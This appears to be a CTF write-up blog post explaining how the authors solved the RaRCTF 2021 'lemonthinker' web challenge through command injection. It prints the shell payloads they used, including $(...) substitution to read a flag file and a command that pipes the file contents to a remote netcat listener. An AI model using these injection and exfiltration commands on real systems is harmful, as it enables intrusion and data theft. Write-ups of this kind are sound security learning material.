 ```yaml
---
layout: post
title: lemon thinker rarctf 2021 Web Challenges Writeup                               # Title of the page
hide_title: false                                  # Hide the title when displaying the post, but shown in lists of posts
feature-img: "assets/img/writeups/lemon-thinker/Screenshot_1.png"              # Add a feature-image to the post
thumbnail: "assets/img/writeups/lemon-thinker/Screenshot_1.png"  # Add a thumbnail image on blog view
color: dufault                            # Add the specified color as feature image, and change link colors in post
bootstrap: true                                   # Add bootstrap to the page
author: abdoghazy
excerpt_separator: <!--more-->
tags: [ctf, writeup, Web]
---
```

<h1>lemon thinker rarctf 2021 Web Challenges Writeup </h1>  
 <!--more-->

Hello all , we hope all of you is well 
This writeup is from Abdoghazy , Mohamed Tarek
Today we will explain how we could solve lemonthinker web challenge from rarctf .

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_1.png" /> 

As we See This is an input and "Generate Your lemonthinker" 
after trying it we got this photo
 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_2.png" /> 

note that the source code is attached so let's see what inisde it 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_3.png" /> 

As we see at line 24 it takes the name from me and passes it to the command that running another script
and there is no filtertion for the input that passes into the command so for sure we thought it's a command injection
note that the os is linux 
the command : python3 generate.py {filename} \"{text}\" 
the user input will be insted of {text} so we will inject there 

as always we tried these payloads : ";id , ||whoami , &&id"

but unforently it's not working with us then we see that the input is passes into "" two double qoutes 
so our payloads didn't working and as we learn at bash we could execute commands from this "$(ls)"
and when we tried it we got the response from the server Alhamdullah

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_4.png" /> 

note : we tried to get reverse shell but no waaay :(
so after this let's read the flag !!

note that we got that the flag is in ../flag.txt from the source 

so i tried :  $(cat ../flag.txt) and it returned this photo :

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_5.png" /> 

so let's read the source of generate.py to know why 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_6.png" /> 

as you see at line 39 if the rarctf in the respone it will give us the image that we see
so i tried to use this command : $(rev ../flag.txt)  and got this response !

pic 7 

as you see we cannot read more than 18 char and there is many chars (it's more that 70 char :) )
so there is two ways to read the flag : 

First Way to use this command to read the flag part by part : $(cat ../flag.txt | cut -c 0-3) 

Then The Second Way and i think it's an amazing way xD 
after we solved it by the first way i had to travel to my Collage and when i on my way i got this idea ;)
i know when two hosts just connected togheter in same port by nc they could contact like a Chat :D 
so what if we tried to open listner on port 4444 and tried to sent the flag on it by this command 

$(rev ../flag.txt | nc ip port )
and we got the full flag by one Command Alhamdullah :D 3> 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/EWdbua2XgAAbMHj.jpg" /> 
